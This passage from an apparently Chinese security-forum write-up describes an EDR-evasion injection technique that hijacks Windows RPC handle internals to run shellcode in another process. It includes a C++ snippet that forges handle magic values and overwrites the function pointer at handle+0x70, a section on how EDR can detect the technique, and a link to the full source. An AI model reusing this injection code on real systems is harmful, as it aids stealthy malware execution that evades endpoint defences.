

36.png (76.18 KB, 下载次数: 4)


[forum.php?mod=attachment&aid=MjczNDA2NHw4Y2M3MWNlNHwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjczNDA2NHw4Y2M3MWNlNHwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes)

2024-11-9 04:59 上传

会执行



37.png (22.44 KB, 下载次数: 4)

[forum.php?mod=attachment&aid=MjczNDA2NXw1NzIyYmUyM3wxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjczNDA2NXw1NzIyYmUyM3wxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes)

2024-11-9 04:59 上传

`handle + 0x70`的位置(这个位置每个系统都不一样)



38.png (18.56 KB, 下载次数: 4)

[forum.php?mod=attachment&aid=MjczNDA2NnwyOTI2NGU4MXwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjczNDA2NnwyOTI2NGU4MXwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes)

2024-11-9 04:59 上传

因此我们只需要,拷贝`payload`,然后把`payload`地址设置到`handle + 0x70`就可以实现shellcode的执行了:

```
    auto payloadAddress = tmpShellcode + calcOffset;
    tempCover = REMOTE_EDIT_ADDRESS(payloadAddress);
    memcpy(payloadAddress, payload, sizeof(payload));
    //I_RpcGetBufferWithObject
    //if ( !Message->Handle || *((_DWORD *)Handle + 2) != 0x89ABCDEF || (*((_DWORD *)Handle + 3) & 0x33307C) == 0 )
    *(ULONG*)(tmpShellcode + 8) = (ULONG)0x89ABCDEF;
    *(ULONG*)(tmpShellcode + 3 * 4) = (ULONG)0x33307C;
    // (*(__int64 (__fastcall **)(BINDING_HANDLE *, RPC_MESSAGE *))(*(_QWORD *)Handle + 0x68i64))(Handle, v4);
    //这里每个系统都不一样,我的是0x70
    *(ULONG_PTR*)(tmpShellcode + 0x70) = (ULONG_PTR)tempCover;
    printf("payload address: %p remoteaddress: %p ", payloadAddress, tempCover);
```

至此,我们成功实现了`virtualprotect` + shellcode call的操作

这是截图:



39.png (69.26 KB, 下载次数: 4)

[forum.php?mod=attachment&aid=MjczNDA2N3w1ODc2ZGQ5OXwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjczNDA2N3w1ODc2ZGQ5OXwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes)

2024-11-9 04:59 上传



40.png (157.41 KB, 下载次数: 4)

[forum.php?mod=attachment&aid=MjczNDA2OHxhNjNjYmMwZHwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjczNDA2OHxhNjNjYmMwZHwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes)

2024-11-9 05:00 上传

## 0x7 检测与预防

虽然叫EDR梦魇,但是显而易见的,整套系统存在关键的问题: 调用栈出现了两个`NdrServerCallAll`，shellcode干的任何事情都存在这个调用栈

另外如果EDR有`win32k`数据源,基本上行为被记录的差不多了.比如这边的翼龙EDR的日志:



41.png (73.77 KB, 下载次数: 3)

[forum.php?mod=attachment&aid=MjczNDA2OXw4YjkzNTU0ZHwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjczNDA2OXw4YjkzNTU0ZHwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes)

2024-11-9 05:00 上传

产生的告警也能看到是访问了`notepad`:



42.png (113.97 KB, 下载次数: 4)

[forum.php?mod=attachment&aid=MjczNDA3MHw2ZGVjNjBiZnwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjczNDA3MHw2ZGVjNjBiZnwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes)

2024-11-9 05:00 上传

还能看到shellcode的执行:



43.png (15.67 KB, 下载次数: 4)

[forum.php?mod=attachment&aid=MjczNDA3MXxhOTZiYWNjOXwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjczNDA3MXxhOTZiYWNjOXwxNzkzNTc2Nzk1fDE2ODA4NnwxOTc5NjY3&nothumb=yes)

2024-11-9 05:00 上传

## 0x8 源码

如果你是想直接使用的,很抱歉,这个源码只能在我的 OS 版本: 10.0.22621 暂缺 Build 22621 使用,因为RPC的偏移每个系统不一样! 具体怎么修改可以看我文章里面的详细复现过程.

[https://github.com/huoji120/APT_Step_Bear_Inject](https://github.com/huoji120/APT_Step_Bear_Inject)
